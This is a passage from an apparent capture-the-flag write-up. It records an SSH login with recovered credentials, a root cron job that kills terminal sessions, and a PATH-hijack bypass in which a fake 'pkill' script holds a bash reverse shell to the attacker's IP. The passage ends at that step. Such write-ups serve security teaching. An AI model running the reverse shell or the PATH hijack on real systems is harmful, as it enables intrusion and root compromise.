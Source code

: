 **Credentials Extracted:**
- Username: `lachlan`
- Password: `thisistheway123` (from the passwd command output)

## Privilege Escalation

### SSH Access Attempt

Attempted SSH login with extracted credentials:

**Command:**
```bash
ssh lachlan@10.201.4.127
```

**Result:** Login successful, but session terminated immediately with "nope" message.

**Analysis:** Anti-forensic mechanism in place to kill SSH sessions.

### Identifying the Countermeasure

Quickly executed commands before timeout. Retrieved `/etc/cron.d/persistence`:

```
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

**Analysis:** Cron job runs every minute, killing all PTY sessions. It uses `pkill`, and PATH includes `/home/lachlan/bin`.

### Bypassing the Countermeasure

1. Created a malicious `pkill` script in `/home/lachlan/bin/` to send a reverse shell instead of killing processes.

**Commands executed via SSH (non-interactive):**
```bash
echo "#!/bin/bash" > /home/lachlan/bin/pkill
echo "bash -i >& /dev/tcp/10.9.1.172/4444 0>&1" >> /home/lachlan/bin/pkill
chmod +x /home/lachlan/bin/pkill
```
